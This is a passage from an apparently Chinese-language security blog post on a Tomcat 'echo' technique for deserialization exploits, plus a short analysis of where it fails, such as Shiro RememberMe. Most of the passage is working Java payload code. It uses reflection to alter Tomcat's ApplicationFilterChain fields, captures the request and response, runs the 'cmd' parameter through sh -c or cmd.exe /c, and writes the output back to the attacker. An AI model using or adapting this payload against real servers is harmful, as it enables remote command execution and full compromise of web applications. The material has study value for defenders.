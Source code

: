 ```java
        modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
        //将变量设置为可访问
        WRAP_SAME_OBJECT_FIELD.setAccessible(true);
        lastServicedRequestField.setAccessible(true);
        lastServicedResponseField.setAccessible(true);

        //获取变量
        ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);
        ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
        boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);
        String cmd = lastServicedRequest != null ? lastServicedRequest.get().getParameter("cmd") : null;
        if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {
            //设置ThreadLocal对象
            lastServicedRequestField.set(null, new ThreadLocal<>());
            lastServicedResponseField.set(null, new ThreadLocal<>());
            //将变量设置为true
            WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
        } else if (cmd != null) {
            //获取lastServicedResponse中存储的变量
            ServletResponse responseFacade = lastServicedResponse.get();
            responseFacade.getWriter();
            java.io.Writer w = responseFacade.getWriter();
            Field responseField = ResponseFacade.class.getDeclaredField("response");
            responseField.setAccessible(true);
            Response response = (Response) responseField.get(responseFacade);
            Field usingWriter = Response.class.getDeclaredField("usingWriter");
            usingWriter.setAccessible(true);
            //设置usingWriter为false
            usingWriter.set((Object) response, Boolean.FALSE);

            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            w.write(output);
            w.flush();
        }
    }
}
```
![](https://img-blog.csdnimg.cn/6f1f9ee4630b49bda254784140bb0021.png)
需要刷新两次的原因是因为第一次只是通过反射去修改值，这样在之后的运行中就会cache我们的请求，从而也就能获取到response
#### 缺陷分析
如果漏洞在ApplicationFilterChain获取回显Response代码之前，那么就无法获取到Tomcat Response进行回显，例如Shiro RememberMe反序列化漏洞
`org.apache.catalina.core.ApplicationFilterChain`核心代码：
```java
if (pos < n) {
    ApplicationFilterConfig filterConfig = filters[pos++];
    try {
        Filter filter = filterConfig.getFilter();
        ...
         filter.doFilter(request, response, this);//Shiro漏洞触发点
```
